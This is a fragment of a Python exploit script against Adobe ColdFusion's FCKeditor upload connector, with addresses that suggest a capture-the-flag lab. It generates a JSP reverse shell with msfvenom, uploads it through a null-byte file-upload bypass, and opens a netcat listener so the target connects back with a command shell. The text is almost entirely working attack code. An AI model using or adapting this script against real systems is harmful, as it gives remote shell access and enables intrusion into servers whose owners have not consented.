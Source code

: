 ```python
        return buffer.getvalue()

def execute_payload():
    print('\nExecuting the payload...')
    print(urllib.request.urlopen(f'http://{rhost}:{rport}/userfiles/file/{filename}.jsp').read().decode('utf-8'))

def listen_connection():
    print('\nListening for connection...')
    os.system(f'nc -lv {lport}')

if __name__ == '__main__':
    # Define some information
    lhost = "10.10.14.9"
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500
    filename = uuid.uuid4().hex

    # Generate a payload that connects back and spawns a command shell
    print("\nGenerating a payload...")
    os.system(f'msfvenom -p java/jsp_shell_reverse_tcp LHOST={lhost} LPORT={lport} -o {filename}.jsp')

    # Encode the form data
    form = MultiPartForm()
    form.add_file('newfile', filename + '.txt', fileHandle=open(filename + '.jsp', 'rb'))
    data = bytes(form)

    # Create a request
    request = urllib.request.Request(f'http://{rhost}:{rport}/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00', data=data)
    request.add_header('Content-type', form.get_content_type())
    request.add_header('Content-length', len(data))

    # Print the request
    print('\nPriting request...')

    for name, value in request.header_items():
        print(f'{name}: {value}')

    print('\n' + request.data.decode('utf-8'))

    # Send the request and print the response
    print('\nSending request and printing response...')
    print(urllib.request.urlopen(request).read().decode('utf-8'))

    # Print some information
    print('\nPrinting some information for debugging...')
    print(f'lhost: {lhost}')
    print(f'lport: {lport}')
    print(f'rhost: {rhost}')
    print(f'rport: {rport}')
    print(f'payload: {filename}.jsp')

    # Delete the payload
    print("\nDeleting the payload...")
    os.system(f'rm {filename}.jsp')

    # Listen for connections and execute the payload
    p1 = Process(target=listen_connection)
    p1.start()
```